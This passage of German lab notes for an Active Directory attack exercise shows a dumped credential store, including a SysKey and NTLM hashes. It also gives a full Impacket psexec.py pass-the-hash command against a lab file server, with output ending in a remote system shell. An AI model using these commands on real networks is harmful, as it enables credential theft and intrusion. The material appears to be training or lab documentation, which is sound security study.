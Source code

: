\begin{lstlisting}[language=bash]
    Domain : Client1
    SysKey : 2d102d4d76b467c3aa870e40d01a3f55
    Local SID : S-1-5-21-1681067654-3552921923-1543340101

    SAMKey : d777e5a8096311cf0c6dd57edebad324

    RID  : 000001f4 (500)
    User : lab_admin
    Hash NTLM: f6e934388fc080ee870bd0637e4992f9
    [CUT]
\end{lstlisting}

Logs anschauen, da ist vieles drin wie username, dmain, credentials, UND NTLM HASHES, die sind am wichtigsten. kann für pass the hash attacken genutzt werden

\newpage

\subsection{Step 5A: Lateral Movement to FS1 via Domain User}
In den vorangegangenen Übungen konnten wir uns lokale Administratorrechte auf dem Windows 10-Client verschaffen und anschließend alle auf diesem Rechner gespeicherten Anmeldeinformationen auslesen. Die gesammelten Daten enthielten unter anderem den NTLM-Hash des Domänenbenutzers "aalfort", der lokaler Administrator auf dem Rechner FS1.winattacklab.local ist.

Diese Konstellation kann nun missbraucht werden, um mit einer Technik namens "pass-the-hash" seitlich auf FS1.winattacklab.local zu gelangen.\\

$\rightarrow$ Python Script für pass the hash attacken: \lstinline|psexec.py|\\

\begin{enumerate}
    \item psexec.py - python zum NTLM Hash probieren
    \item \textbf{psexec.py  -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101}\\
\end{enumerate}

\begin{lstlisting}[language=PowerShell]
    Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

    [*] Requesting shares on 10.0.1.101.....
    [*] Found writable share ADMIN$
    [*] Uploading file LZzQLrwi.exe
    [*] Opening SVCManager on 10.0.1.101.....
    [*] Creating service HIbO on 10.0.1.101.....
    [*] Starting service HIbO.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1397]
\end{lstlisting}

